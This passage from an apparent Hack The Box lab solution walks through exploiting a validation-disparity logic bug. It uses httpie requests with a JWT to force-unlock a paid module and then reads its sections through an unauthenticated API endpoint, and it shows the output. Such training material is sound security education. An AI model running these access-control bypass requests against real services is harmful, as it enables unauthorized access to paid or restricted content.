 ![[HTB Solutions/CWEE/z. images/ac0b5984ab7bdca1e517455d4960da9f_MD5.jpg]]

Nevertheless, when inspecting the `unlockModule` function (found within `src/src/controllers/modules-controllers.js`, lines 80-199), students will notice that when it unlocks a module for users with subscriptions (after passing multiple validation checks) without checking for any conditions, leading to a validation disparity logic bug:

![[HTB Solutions/CWEE/z. images/c3932b472763cfae2392ff83202ddfb7_MD5.jpg]]

Thus, regardless of the front-end preventing the module from being unlocked, the back-end does not enforce the same validations. Students need to attain a new JWT token and then unlock the module:

Code: shell

```shell
http GET http://STMIP:STMPO/api/modules/11/unlock --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.11]─[htb-ac-413848@htb-rgujdxlutm]─[~]
└──╼ [★]$ http GET http://94.237.59.185:47515/api/modules/11/unlock --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY1MWFlZmJjMWIyYTUwZTE0MDYwZmViMiIsIm5hbWUiOiJwZWRhbnQiLCJ1c2VybmFtZSI6InBlZGFudCIsImVtYWlsIjoicGVkYW50QGh0Yi5jb20iLCJyZWdpc3RyYXRpb25EYXRlIjoiMjAyMy0xMC0wMlQxNjoyODo0NC45OTJaIiwiY3ViZXMiOjExMDMwLCJzdWJzY3JpcHRpb24iOnsidXNlcklkIjoiNjUxYWVmYmMxYjJhNTBlMTQwNjBmZWIyIiwic3Vic2NyaXB0aW9uTmFtZSI6IlBsYXRpbnVtIiwiZXhwaXJlc0F0IjoiMjAyNC0wOS0yNlQxNjozMjo1NC43NjhaIn0sImlhdCI6MTY5NjI2NzU1OSwiZXhwIjoxNjk2MzUzOTU5fQ.Ol9Mas46GJGOar4q1Xj0EYtF3pmHgpZSZw0lIjsuXTg" | jq

{
  "unlocked": true
}
```

Even after signing out and signing in again, students will notice that the front-end still prevents viewing the module's sections/contents:

![[HTB Solutions/CWEE/z. images/f406667f85e6613ae8b5357bb34bf0af_MD5.jpg]]

However, when inspecting the routes in `src/src/routes/sections-routes.js`, mapped for `src/src/controllers/sections-controllers.js`, students will notice that there is an unauthenticated GET `/api/sections/:moduleId` endpoint that returns the sections of a module by passing its `id`:

![[HTB Solutions/CWEE/z. images/1a7f189780715ee336aac9be90917e98_MD5.jpg]]

Students need to retrieve the sections of the module with the `id` `11`, finding out that the `id` of the first section is `148`:

Code: shell

```shell
http GET http://STMIP:STMPO/api/sections/11 | jq
```

```
┌─[eu-academy-1]─[10.10.14.11]─[htb-ac-413848@htb-rgujdxlutm]─[~]
└──╼ [★]$ http GET http://94.237.59.185:47515/api/sections/11 | jq

{
  "sections": [
    {
      "isPractical": false,
      "_id": "651aef87477e331d368f048d",
      "id": 148,
      "moduleId": 11,
      "title": "Assembly Language"
    },
    {
      "isPractical": false,
      "_id": "651aef87477e331d368f048e",
      "id": 149,
```